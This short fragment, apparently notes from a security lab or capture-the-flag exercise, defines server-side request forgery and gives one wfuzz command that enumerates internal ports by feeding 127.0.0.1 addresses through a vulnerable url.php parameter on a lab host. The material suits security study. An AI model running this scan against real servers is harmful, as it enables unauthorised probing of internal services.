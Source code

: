 **Server-side request forgery** (**SSRF**) is a type of computer security exploit where an attacker abuses the functionality of a server causing it to access or manipulate information in the realm of that server that would otherwise not be directly accessible to the attacker.

`wfuzz -c -z range,1-65535 --hl=2 http://10.10.10.55:60000/url.php?path=127.0.0.1:FUZZ`
